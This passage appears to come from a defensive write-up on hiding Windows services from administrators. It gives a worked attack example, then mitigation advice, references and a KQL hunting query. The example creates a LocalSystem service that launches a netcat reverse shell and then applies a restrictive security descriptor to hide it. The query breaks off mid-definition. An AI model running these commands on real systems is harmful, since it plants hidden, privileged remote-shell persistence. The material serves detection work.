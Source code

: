 ### Example Of Malicious Use: 
Creating an evil service with a netcat reverse shell:
```
C:\> sc create evilsvc binpath= "c:\tools\nc 127.0.0.1 31337 -e cmd.exe" start= "auto" obj= "LocalSystem" password= ""
[SC] CreateService SUCCESS
C:\> sc.exe sdset evilsvc "D:(D;;DCLCWPDTSD;;;IU)(D;;DCLCWPDTSD;;;SU)(D;;DCLCWPDTSD;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)"
C:\> sc start evilsvc
```

### Prevention Recommendations
    • Lock down accounts that can create services.

### Mitigation Recommendations
    • if Malicious activity is detected then you should change the password of the user that was exploited and setup MFA if it is not already setup. 
    • Look for any other devices the user has had contact with (logged into) since the known breach took place and investigate those devices for malicious activity and files. 
    • Cut this device off from the network and begin checking for other malicious activity or files. 
    • Because this is a sophisticated attack meant to hide malicious activity, a normal scan might not identify all threats. If this device can be reinstalled from scratch that should be a consideration once the full investigation has been completed.

### References 
    1. https://www.sans.org/blog/red-team-tactics-hiding-windows-services/ 
    2. https://medium.com/@mahdihatami.k/attack-and-hunting-lateral-movement-with-service-control-manager-svcctl-6424d3d41a0a 
    3. https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1569.002/T1569.002.md 
    4. https://www.ired.team/offensive-security/persistence/t1035-service-execution 
    5. https://pentestlab.blog/2023/03/20/persistence-service-control-manager/ 
    6. https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/ 
    7. https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/convertfrom-sddlstring?view=powershell-7.4 
    8. https://nettools.net/sddl-viewer/ 
    9. https://itconnect.uw.edu/tools-services-support/it-systems-infrastructure/msinf/other-help/understanding-sddl-syntax/ 

# KQL:
```kql
let HideService = @'(.*)sc(\.exe)?(.*)sdset(.*)((\w:)?\((D);+\w+;+(IU|SU|BA)?\))(.+)'
;
let ClearObf = @'(\^|(")+|\$|%|\+|("\+"))'
;
let SEvent = SecurityEvent
| extend Deobf_CommandLine=replace_regex(CommandLine, ClearObf, '')
| where Deobf_CommandLine matches regex HideService
;
let DEvent = DeviceEvents
| extend InitiatingDeobf_CommandLine=replace_regex(InitiatingProcessCommandLine, ClearObf, '')
| extend Deobf_CommandLine=replace_regex(ProcessCommandLine, ClearObf, '')
| where InitiatingDeobf_CommandLine matches regex HideService or Deobf_CommandLine matches regex HideService
;
let DPEvent = DeviceProcessEvents
| extend InitiatingDeobf_CommandLine=replace_regex(InitiatingProcessCommandLine, ClearObf, '')
| extend Deobf_CommandLine=replace_regex(ProcessCommandLine, ClearObf, '')
| where InitiatingDeobf_CommandLine matches regex HideService or Deobf_CommandLine matches regex HideService
;
let DFEvent = DeviceFileEvents
```